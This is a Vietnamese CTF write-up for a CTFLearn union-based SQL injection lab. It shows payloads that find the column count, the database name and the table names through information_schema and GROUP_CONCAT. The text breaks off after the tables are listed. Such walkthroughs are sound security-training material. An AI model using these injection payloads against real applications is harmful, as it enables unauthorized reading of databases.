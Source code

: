 Đây là một thử thách về Union Based SQLI ở CTFLearn, truy cập vào https://web.ctflearn.com/web8 thì mình thấy có parameters "id" được truyền qua phương thức GET. Đây có thể là nơi để exploit.

## Xác định số cột trong database

Khi mình truyền tham số 1 vào parameters id thì có 3 phần đó là

```
Name: Saranac
Breed: Great Dane
Color: Black
```

Sử dụng một truy vấn UNION cơ bản

```
1 union select 1,2,3,4-- 
```
Ta xác định dược rằng có 4 columns ở đây
## Tìm tên database và tables name bằng GROUP_CONCAT function
Có thể tham khảo cheatsheet ở https://gist.github.com/nani1337/02c65b06d0dbcf3b9a684f5caf78ad15#file-0x01-basic-sqlinjection-cheat-sheet-L86

```
-1 UNION SELECT 1,2,database(),4 from information_schema.tables--
```
Ở đây ta có thể thấy database tên là **webeight**
![](https://raw.githubusercontent.com/K3v1ne/ctf-wu/main/Inj3ction-Time/Capture.PNG)

Có database name rồi bây giờ ta sẽ trích xuất tables trong database

**-1 union all select null,null,GROUP_CONCAT(table_name SEPARATOR 0x3c62723e),null from information_schema.tables WHERE TABLE_SCHEMA=DATABASE()**

Kết quả:

```
Name:
Breed:
Color: w0w_y0u_f0und_m3
webeight
```
